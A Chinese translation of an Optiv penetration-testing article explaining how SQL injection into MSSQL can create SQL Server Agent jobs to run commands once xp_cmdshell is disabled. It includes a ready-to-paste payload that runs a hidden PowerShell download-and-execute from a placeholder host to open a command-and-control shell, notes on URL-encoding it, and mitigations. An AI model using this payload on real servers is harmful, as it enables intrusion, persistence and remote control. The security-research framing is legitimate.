> 原文链接: https://www.anquanke.com//post/id/84646 


# 【技术分享】MSSQL注入时通过Agent Job执行命令的方法


                                阅读量   
                                **179331**
                            
                        |
                        
                                                                                    



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://www.optiv.com/blog/mssql-agent-jobs-for-command-execution](https://www.optiv.com/blog/mssql-agent-jobs-for-command-execution)

译文仅供参考，具体内容表达以及含义原文为准



**安全客技术点评**

因为MSSQL 2005以后的版本默认禁止了XP_CMDSHELL，如果服务器开启了MSSQL Agent Job服务，并且有权限新建和执行agent jobs的话，配合cobaltstrike的powershell payload会返回一个SQLSERVERAGENT权限的shell。操作的具体步骤可以参考视频，实际操作的时候需注意URL编码问题。



**写在前面的话**

Optiv渗透测试（A&amp;P）团队的主要目标就是通过模拟恶意黑客的攻击行为来测试公司的安全防御的有效性。所谓安全测试，就是要通过模拟真实的攻击场景对企业或组织的安全解决方案进行多方面的评估。这种类型的安全评估不仅可以帮助组织确定自己的信息安全防护能力，还可以帮助他们提升系统的安全性。除此之外，安全研究人员还可以在测试过程中找出那些安全意识薄弱的雇员，企业就可以对这部分人进行额外的安全培训，以尽可能地避免因不安全的人为操作而导致的安全事件发生。

实际上在信息安全领域中，攻击者和防御者一直都在玩着一种“猫捉老鼠”的游戏，而且信息安全攻防也是一场永无止境的“军备竞赛”。恶意攻击者会使用新型的攻击手段来发动攻击，而安全专家又需要针对这些攻击方法来设计并部署相应的检测和防御措施。因此，从安全防御的角度出发，企业或组织应该以一种积极主动的态度来与网络恶势力对抗。各个组织应当要能够识别新型的攻击，并且提前采取适当的措施来抵御这些攻击，这就是我们所说的“先发制人”。

[![](https://p4.ssl.qhimg.com/t013dc59532f7e721d5.png)](https://p4.ssl.qhimg.com/t013dc59532f7e721d5.png)

长期以来，Optiv公司的A&amp;P团队无论在攻击端还是防御端都一直保持着自己的技术专业性，而且Optiv公司提供给用户的安全防御方法可以有效地检测并防御新型的网络攻击。如果组织想要在这个不断变化的安全威胁环境中生存下来，那么就必须要有一个专业的安全团队来帮助他们评估攻击者可能会采用的攻击策略、攻击技术、以及攻击过程（TTP），并且在安全团队的帮助下，利用这些评估数据来提升自己的安全性。在这种情况下，Optiv公司也许是一个最合适的选择。

**<br>**

**未被发现的攻击**

现在，**很多攻击者在发动恶意攻击的时候已经不会单纯地去追求成功率了，因为他们还需要保证自己的攻击活动不被检测到。**如果企业在检测和发现数据泄漏的过程中耗费的时间越久，那么攻击者就会有更多的时间去识别并提取系统中的敏感数据。不仅如此，攻击者甚至还可以利用这个被入侵的网络系统来作为一个支点，并进行其他的恶意攻击活动。

Optiv公司的A&amp;P团队会设计并实施一些高级的网络攻击，而我们的目标就是通过这些攻击来发现防御端与攻击端之间的差距，并帮助组织提升安全防护能力。

**<br>**

**微软的SQL Server Agent**

近期，Optiv公司的安全研究专家发现了一种新型的攻击手段。如果MSSQL数据库中开启了MSSQL Server Agent Job服务的话，攻击者将可以利用MSSQL Server中自带的功能来获取一个shell。

[![](https://p3.ssl.qhimg.com/t011197451159bea9c1.png)](https://p3.ssl.qhimg.com/t011197451159bea9c1.png)

[MSSQL Server代理](https://technet.microsoft.com/en-us/library/ms189237(v=sql.105).aspx)是一个Windows服务，它可以被用来执行自动化任务。管理员可以设置定时代理作业，然后在MSSQL Server代理服务中执行这些定时作业。但是，如果使用了代理的话，这些作业（job）就可以使用不同的证书来执行了。

**<br>**

**攻击浅析**

在近期的一次安全分析中，研究人员在一个使用了MSSQL Server 2012的Web应用中发现了一个SQL注入漏洞。在客户的要求下，Optiv以一种非公开的方式对目标进行了安全评估，并且在评估的过程中尽可能地避免被检测到。Optiv设计出了一种新的攻击方法，研究人员可以利用MSSQL Server中的本地功能来在Windows操作系统中执行任意命令。在整个测试过程中，**xp_cmdshell存储过程已被禁用了，并且限制了创建自定义存储过程的能力。**

当xp_cmdshell扩展存储过程在攻击中被使用时，大多数安全监控或检测系统都会产生警报。而攻击者和渗透测试人员对xp_cmdshell的滥用已经导致很多组织和企业开始禁用或限制xp_cmdshell了。

Optiv发现了一种攻击场景，攻击者或可利用MSSQL Server代理来在目标数据库服务器中执行任意控制命令。但是，目标服务器必须满足一下几个条件：

**1. 目标服务器必须开启了MSSQL Server代理服务；**

**2. 服务器中当前运行的用户账号必须拥有足够的权限去创建并执行代理作业；**

Optiv已经发现了两个攻击者可以利用的MSSQL代理作业子系统：CmdExec和PowerShell子系统，这两个功能可以分别用来执行操作系统命令和PowerShell脚本。

[![](https://p1.ssl.qhimg.com/t010c7162188359043e.png)](https://p1.ssl.qhimg.com/t010c7162188359043e.png)

Optiv的安全研究专家可以使用SQL注入点来创建并执行代理任务。任务所需执行的命令是一段PowerShell代码，这段代码可以让目标系统与一个受Optiv控制的IP地址进行通信连接，然后下载额外的PowerShell指令。这样一来，就可以在目标数据库服务器与Optiv控制的服务器之间建立一条可交互的命令控制会话了。

下面这张代码截图显示的是已被拆分的SQL语句。请注意，在下面这段下载命令中，**URI位于两个单引号之间，而不是之前的双引号**。这样做是为了在SQL语句中**转义单引号**。

[![](https://p1.ssl.qhimg.com/t018f64d896cdbf039d.png)](https://p1.ssl.qhimg.com/t018f64d896cdbf039d.png)

```
USE msdb; EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ; EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://IP_OR_HOSTNAME/file''))"', @retry_attempts = 1, @retry_interval = 5 ;EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; EXEC dbo.sp_start_job N'test_powershell_job1';
```

如果你想要复现攻击场景的话，上面这段代码可以方便你进行复制粘贴。接下来，我们将通过下面的例子来给大家进行攻击演示。

**<br>**

**攻击示例**

如下图所示，SQL语句已经进行了URL编码处理。在这个攻击示例中，攻击是通过HTTP GET请求来发送的，因此我们需要对攻击payload进行URL编码。

[![](https://p3.ssl.qhimg.com/t01204d996dee6f7f53.png)](https://p3.ssl.qhimg.com/t01204d996dee6f7f53.png)

大家可以看到，我们在HTTP GET请求的参数中添加了SQL注入payload，这样我们就可以使用SQL注入了。（请注意我们在payload的开头处添加的%20（空格符））

[![](https://p5.ssl.qhimg.com/t01ab9da13acf904e4b.png)](https://p5.ssl.qhimg.com/t01ab9da13acf904e4b.png)

当payload运行之后，我们就可以看到命令控制会话已经建立成功了，并且使用的是“SQLSERVERAGENT”账号的权限。

[![](https://p4.ssl.qhimg.com/t0101288406c495f98e.png)](https://p4.ssl.qhimg.com/t0101288406c495f98e.png)

在目标主机的SQL Server中，我们可以看到SQL代理作业已经创建成功了。

[![](https://p0.ssl.qhimg.com/t01cab0c9bab20bcf54.png)](https://p0.ssl.qhimg.com/t01cab0c9bab20bcf54.png)

**我们在这里给大家提供了一个完整的攻击演示视频：**





**<br>**

**攻击过后的安全剖析**

如果目标主机运行了MSSQL代理服务，并且代理服务使用的用户账号可以访问其他的MSSQL Server的话，那么攻击者就可以利用这种攻击来在其他的MSSQL Server中执行MSSQL Server代理作业了。除此之外，攻击者还可以设置定时代理作业，这也就意味着，攻击者不仅可以利用这种方式来躲避安全检测，而且还可以实现对目标MSSQL Server的持久化控制。

在某些情况下，如果MSSQL Server代理服务使用的是权限更高的用户账号，那么攻击者就可以通过这种攻击来实现提权。

**<br>**

**攻击缓解方案**

[![](https://p1.ssl.qhimg.com/t01fedb1c3142d598d7.png)](https://p1.ssl.qhimg.com/t01fedb1c3142d598d7.png)

常用的Web应用安全保护策略应该都可以防止这种类似SQL注入的攻击。用户应该在Web应用中使用事先定义好的SQL查询语句，然后从后台数据库中提取出Web应用的事务处理逻辑。除此之外，用户也应该**部署Web应用防火墙**来检测并阻止这种攻击。

如果内部系统无需直接访问互联网主机的话，用户应该直接阻止这类操作，这样就可以防止攻击者在组织内部服务器与外部恶意服务器之间建立通信连接了。除此之外，管理员也应该部署**严格的数据输出过滤策略。**

由于攻击者可以利用MSSQL Server代理作业来在其他的数据库服务器中执行SQL查询操作，那么为了限制这种攻击，我们就要严格控制数据库用户账号的权限，即按照“**最小权限原则**”来分配账号权限。
